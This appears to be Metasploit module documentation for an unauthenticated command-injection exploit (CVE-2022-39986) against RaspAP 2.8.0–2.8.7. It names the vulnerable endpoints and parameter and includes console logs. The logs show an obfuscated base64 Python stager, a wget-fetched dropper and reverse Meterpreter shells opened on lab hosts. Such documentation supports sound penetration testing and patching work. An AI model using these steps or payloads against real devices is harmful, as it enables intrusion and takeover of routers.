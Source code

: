 ## Vulnerable Application

RaspAP is feature-rich wireless router software that just works
on many popular Debian-based devices, including the Raspberry Pi.

A Command injection vulnerability in RaspAP versions 2.8.0 thru 2.8.7 allows
unauthenticated attackers to execute arbitrary commands via the cfg_id
parameter in /ajax/openvpn/activate_ovpncfg.php and /ajax/openvpn/del_ovpncfg.php.

This Metasploit exploit module targets a command injection vulnerability (CVE-2022-39986) in RaspAP's web-gui PHP project,
The vulnerability affects versions of `RaspAP` between `2.8.0` and `2.8.7`. By exploiting this flaw, an attacker can execute
arbitrary commands in the context of the user running RaspAP. This issue was discovered and reported by Ismael0x00.
Check [here](https://medium.com/@ismael0x00/multiple-vulnerabilities-in-raspap-3c35e78809f2) for the original writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. Follow the manual installation steps given [here](https://docs.raspap.com/manual/)
2. After setting up the service, navigate to the `/var/www/html` directory
3. Do `git checkout 2.8.0` for switching to the vulnerable version

**Note: Project can also be installed inside a ubuntu/debian docker containers**

## Verification Steps

1. msfconsole
2. Do: `use exploit/unix/http/raspap_rce`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]`
5. Do: `check`

## Options

## Scenarios

### Debian 12, Unix Command Target
```
msf6 > use exploit/unix/http/raspap_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/http/raspap_rce) > set rhosts 172.16.199.130
rhosts => 172.16.199.130
msf6 exploit(unix/http/raspap_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(unix/http/raspap_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix Command with echo exec\(__import__\(\'zlib\'\).decompress\(__import__\(\'base64\'\).b64decode\(__import__\(\'codecs\'\).getencoder\(\'utf-8\'\)\(\'eNo9UE1LxDAQPTe/IrckGMNmqZVdrCDiQUQEd28i0iajhqZpSLJaFf+7DVmcwwxv5s2bDzP6KSQcJzVA4t/W9LzvIjQ1jykcVOLJjIBep4BnbBwOnXsDKldsi6oUvhZfxbY0ixLomh/x7uH67mW3f7y5umeZJ9TkHKhEKZHnayEbITcbIQmvF2OZ0gfoBlTBrMCnrJ2Hi2gBPD1jyLZlJ3FwvlMDJZe3hEcRQH3QReBp9Yx0e8SWoc93YwFbcFSzC7vI6ZP/6mlJMwQzKJrPFhrUNPoAMdLyAdE3dU5qyEz+QyLZxl+G/gDVz18D\'\)\[0\]\)\)\) | exec $(which python || which python3 || which python2) -
[*] Sending stage (24772 bytes) to 172.16.199.130
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.130:48494) at 2023-08-14 20:38:21 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : debian
OS           : Linux 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-2 (2023-07-27)
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```

### Debian 11, Linux Dropper Target
```
msf6 > use exploit/unix/http/raspap_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/http/raspap_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/http/raspap_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(unix/http/raspap_rce) > set target 1
target => 1
msf6 exploit(unix/http/raspap_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper
[*] Using URL: http://172.17.0.1:8080/cH0NvADRgGYZoL
[*] Client 172.17.0.2 (Wget/1.21) requested /cH0NvADRgGYZoL
[*] Sending payload to 172.17.0.2 (Wget/1.21)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:48940) at 2023-08-10 00:37:27 +0200
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid 
Server username: www-data
meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Debian 11.6 (Linux 6.4.7-hardened1-2-hardened)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

